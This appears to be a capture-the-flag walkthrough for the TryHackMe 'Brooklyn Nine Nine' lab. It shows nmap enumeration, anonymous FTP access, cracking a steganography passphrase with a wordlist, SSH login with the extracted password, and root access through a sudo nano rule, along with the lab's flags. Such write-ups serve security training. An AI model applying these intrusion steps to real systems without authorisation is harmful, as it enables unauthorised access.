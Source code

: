 # Brooklyn Nine Nine
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Steganography
* FTP
* SSH
* Sudoers

Tools used
--
* nmap
* ftp
* steghide
* stegseek

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.199.58
* Other information must be gathered during the attack

## Phase 1: Enumeration
```
sudo nmap -sS -sC -sV 10.10.199.58 -p- -T5 -vvv

<SNIP>
Discovered open port 21/tcp on 10.10.199.58
Discovered open port 22/tcp on 10.10.199.58
Discovered open port 80/tcp on 10.10.199.58
<SNIP>
21/tcp    open     ftp            syn-ack ttl 63 vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.98.39
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
<SNIP>
```
## Phase 2: Foothold
Let's access to the FTP server by anonymous user for retrieving the `note_to_jake.txt` file:
```
ftp 10.10.199.58 -n
Connected to 10.10.199.58.
220 (vsFTPd 3.0.3)
ftp> user
(username) anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> get note_to_jake.txt
```
Let's read this file:
```
cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
So Jake is a vulnerable user.

Meanwhile let's visit the HTTP server. If we visit it by the browser and we look for the home page source code, we can read the following content:
```
<!-- Have you ever heard of steganography? -->
```
So we can guess the background image of this website can hide some file. Let's use steghide for this. The file is protected by password, so use `stegcracker` or `stegseek` for cracking it:
```
stegseek brooklyn99.jpg $SECLISTS/Passwords/Leaked-Databases/rockyou-75.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".

steghide extract -sf brooklyn99.jpg
Enter passphrase: admin
wrote extracted data to "note.txt".

cat note.txt 

Holts Password:
fluffydog12@ninenine

Enjoy!!
```
So we got a password. Raymond Holt is a character of the show "Brooklyn 99". The username could be `raymond` or `holt`:
```
ssh 10.10.199.58 -l holt

holt@10.10.157.202's password: fluffydog12@ninenine
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```
## Phase 3: Privilege Escalation

Run:
```
sudo -l                                                                    
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
So open the `/root/root.txt` file by `sudo nano` and get its root flag:
```
sudo nano /root/root.txt

-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```